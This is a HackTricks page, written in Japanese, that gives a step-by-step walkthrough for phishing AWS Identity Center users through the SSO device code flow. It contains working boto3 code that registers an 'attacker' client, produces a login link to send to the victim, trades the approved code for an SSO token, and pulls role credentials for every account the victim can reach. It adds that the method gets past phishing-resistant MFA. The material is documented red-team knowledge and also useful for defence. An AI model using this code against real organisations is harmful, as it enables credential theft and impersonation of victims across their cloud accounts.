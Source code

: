 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWSデバイスコードフィッシング

最初に[**このブログ記事**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)で提案されたように、AWS SSOを使用しているユーザーに**リンク**を送信することが可能で、**ユーザーが受け入れれば**、攻撃者は**ユーザーを偽装するためのトークンを取得し**、**Identity Center**でユーザーがアクセスできるすべてのロールにアクセスできるようになります。

この攻撃を実行するための要件は次のとおりです：

* 被害者は**Identity Center**を使用している必要があります
* 攻撃者は被害者が使用している**サブドメイン**を知っている必要があります `<victimsub>.awsapps.com/start`

前述の情報だけで、**攻撃者はユーザーにリンクを送信でき**、**受け入れられれば**、**攻撃者はAWSユーザー**アカウントへのアクセスを得ることができます。

### 攻撃

1. **サブドメインの特定**

攻撃者の最初のステップは、被害者の会社がIdentity Centerで使用しているサブドメインを特定することです。これは**OSINT**または**推測 + ブルートフォース**を使用して行うことができ、ほとんどの会社はここで自社名またはそのバリエーションを使用しています。

この情報をもとに、Identity Centerが設定されたリージョンを取得することが可能です：
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **被害者のリンクを生成して送信する**

次のコードを実行して、被害者が認証できるAWS SSOログインリンクを生成します。\
デモのために、このコードをPythonコンソールで実行し、後でトークンを取得するためにいくつかのオブジェクトが必要になるので、終了しないでください:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
送信されたリンクを被害者にあなたの素晴らしいソーシャルエンジニアリングスキルを使って送信してください！

3. **被害者がそれを受け入れるのを待つ**

被害者が**すでにAWSにログインしている**場合、権限を付与することを受け入れるだけで済みます。ログインしていない場合は、**ログインしてから権限を付与することを受け入れる必要があります**。\
これが現在のプロンプトの見た目です：

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSOアクセストークンを取得する**

被害者がプロンプトを受け入れた場合、このコードを実行して**ユーザーを偽装してSSOトークンを生成します**：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSOアクセストークンは**8時間有効**です。

5. **ユーザーをなりすます**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### フィッシング不可能なMFA

以前の攻撃が**「フィッシング不可能なMFA」（webAuth）が使用されていても機能する**ことを知るのは楽しいです。これは、以前の**ワークフローが使用されているOAuthドメインを離れないため**です。他のフィッシング攻撃とは異なり、ユーザーがログインドメインを偽装する必要がない場合、デバイスコードワークフローが準備されているため、**デバイスによって知られているコード**があり、ユーザーは異なるマシンでもログインできます。プロンプトを受け入れると、デバイスは**初期コードを知っているだけで**、ユーザーのために**資格情報を取得**することができます。

詳細については、[**この投稿を確認してください**](https://mjg59.dreamwidth.org/62175.html)。

### 自動ツール

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## 参考文献

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
